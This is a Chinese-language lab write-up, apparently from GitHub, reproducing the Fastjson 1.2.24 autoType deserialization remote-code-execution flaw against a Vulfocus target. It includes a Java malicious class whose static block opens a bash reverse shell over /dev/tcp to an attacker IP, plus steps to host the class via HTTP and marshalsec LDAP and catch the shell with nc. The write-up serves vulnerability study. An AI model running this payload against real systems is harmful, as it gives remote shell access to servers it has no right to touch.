




# Fastjson_1.2.24反序列化导致任意命令执行漏洞 by [fengyehack](https://github.com/fengyehack) 

## 漏洞描述

FastJson 库是 Java 的一个 Json 库，其作用是将 Java 对象转换成 json 数据来表示，也可以将 json 数据转换成 Java 对象，使用非常方便，号称是执行速度最快的库。

在 1.2.24 版本的 Fastjson 出现了一个反序列化的漏洞，fastjson 在解析 json 的过程中，支持使用 autoType 来实例化某一个具体的类，并调用该类的 set/get 方法来访问属性。通过查找代码中相关的方法，即可构造出一些恶意利用链。

## 漏洞影响版本

fastjson <= 1.2.24

## 漏洞复现

启动 Vulfocus 靶场的 fastjson1.2.24-rce


修改 java 恶意类代码保存为 TouchFile.java

```java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
   static {
       try {
          Runtime r = Runtime.getRuntime();
          Process p = r.exec(new String[]{"/bin/bash","-c","bash -i >& /dev/tcp/IP/1888 0>&1"});
          p.waitFor();
       } catch (Exception e) {
           // do nothing
       }
   }
}
```





编译恶意类代码 javac TouchFile.java 生成 TouchFile.class


上传编译好的恶意类到服务器


然后使用 python -m SimpleHTTPServer 快速搭建http服务


使用 marshalsec 开启 ldap 服务



nc 监听


访问 FastJson 页面，使用 Burp 抓包，改为 POST 请求，使用 exp 反弹 shell



可以看到请求成功，加载了恶意类


成功拿到 shell



